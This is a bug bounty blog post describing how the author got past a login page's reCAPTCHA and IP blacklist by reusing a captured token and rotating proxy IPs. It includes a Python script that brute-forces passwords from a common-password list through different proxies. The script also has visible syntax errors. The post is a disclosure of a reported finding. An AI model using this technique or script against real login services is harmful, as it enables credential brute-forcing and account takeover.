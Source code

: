 ```yaml
---
date: 2020-07-26 22:55:45
layout: post
title: Ip Rotation Bypass
description: Ip rotation to bypass ip based check
image: https://i.ibb.co/xXt8WMK/rotate.jpg
optimized_image: https://i.ibb.co/xXt8WMK/rotate.jpg
category: BugBounty
tags:
  - bughunting
  - bugbounty
  - webapp
author: shivangx01b
---
```


## Bypassing Ip based protection for login using simple python script

Hey guys I'm back with my another finding and also another one which does not implement google recaptcha properly and made this attack possible ...will see how.
We will say this traget as "private.com" through out the article. So let's jump into it !

![Alt Text](https://media.giphy.com/media/dLolp8dtrYCJi/giphy.gif)

Like always whenever I hunt on any program I start with the main web app and check out their stuffs there...well why not ?
So I jumoed to login created an accout and started to  check if web app implements rate limit or not ...
Well web app says that it implements google recaptcha so I thought ..well I try to remove header from the request and removed that recaptcha part from json request..like

- Original json request:
```
{"email": "anyuser@gmail.com", "password": "letbreakit12?", "recaptchaToken": "03AGdBq27wZv0tXXXXXXXXXXXXXX", "recaptchaVersion": "v3"}
```

- To:
```
{"email": "anyuser@gmail.com", "password": "letbreakit12?",  "recaptchaVersion": "v3"}
```

But no luck 

- Response:
```
{"error":"recaptchaToken not found"}
```
Next thing I checked it web app reuses it's recaptchas?
And well yes ...now response was like 

- Response:
```
{"error":"Incorrect email/Password"}
```

Now the next thing remains is to check it we can bruteforce this ...Well after 3 ~ 4 tried including the above requests so total like ~ 7 requests I got response like 

```
{"error":"Something went wrong, Ip 47.1.X.x" is added to blacklist try again later"}
```
From this point I thought well it blocked my Ip what about other ?
So I tried to login with my phone data with random password and correct email and got response as

```
{"error":"Incorrect email/Password"}
```
So now I know what to do ;)
![Alt Text](https://media.giphy.com/media/BlWF2vzpIPB0A/giphy.gif)

- Now I had two options either use:
  - IpRotate which is cool extension which uses aws api gatways and proxy your traffic with unique ips 
  - Create a script (as most time internal teams would not like to install a extension for a specific bug)

So I made the following simple python3 script which proxies your every login attempt through different ips 

```python

from proxy_requests.proxy_requests import ProxyRequests
import Queue
import sys

q = Queue.Queue()

passwordList = open('1k_most_common.txt','r').read().splitlines()
total = len(passwordList)


def attack(url):
   try :
       Pass = q.get()
       r = ProxyRequests(url)
       r.set_headers({"Connection": "close", 
                      "Accept": "application/json, text/plain, */*", 
                      "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36", 
                      "Content-Type": "application/json;charset=UTF-8", 
                      "Origin": "https://program.com", 
                      "Sec-Fetch-Site": "same-site", 
                      "Sec-Fetch-Mode": "cors", 
                      "Sec-Fetch-Dest": "empty", 
                      "Referer": "https://program.com/login", 
                      " Accept-Encoding": "gzip, deflate", 
                      "Accept-Language": "en-US,en;q=0.9",
                      "Cookie " : "__cfduid": "dc7914404b4b8af17d2b615325ec94cbf1596976181", "connect.sid": "s%3Aqcg54CJ2isBko1u1YNhaPG0bhX9R9Wmi.8XeOBqwBtDjReQFjOwpK8s6AnRPVO4BJfghJClZEcio"}

       r.post_with_headers({"email": "anyuser@gmail.com", "password": "" + str(Pass) + "", "recaptchaToken": "03AGdBq27wZv0tXXXXXXXXXXXXXX", "recaptchaVersion": "v3"})

       if r.get_status_code() == 401 or r.get_status_code() == 429:
                     continue
       if r.get_status_code() == 302:
                     print ("[!] Password Found !: " + str(Pass))
    except Queue.Empty :
	sys.exit()
   
def push_pass():

   for password in passwordList :
        q.put(password.strip())

def main():
   push_pass()
   url = "https://api.program.com/api/v2/login"
   for i in range(total):
       attack(url)
        

if '__name__' == '__main__': 
    main()
```
I didn't made it fast which I could or you could make a simple bash script with calls curl and a proxy list via which curl proxies your traffic...well I just had to show that even after like 12 - 20 requests web app is still allowing me for another login attempt


- Reported the bug 
Accepted and bounty awarded $_$

- Takeaway
  - Trying new thing helps

Hope you guys learned seomthing new from this post :)
See you next time !

![Alt Text](https://media.giphy.com/media/KEkCtOMhkdze5azTMa/giphy.gif)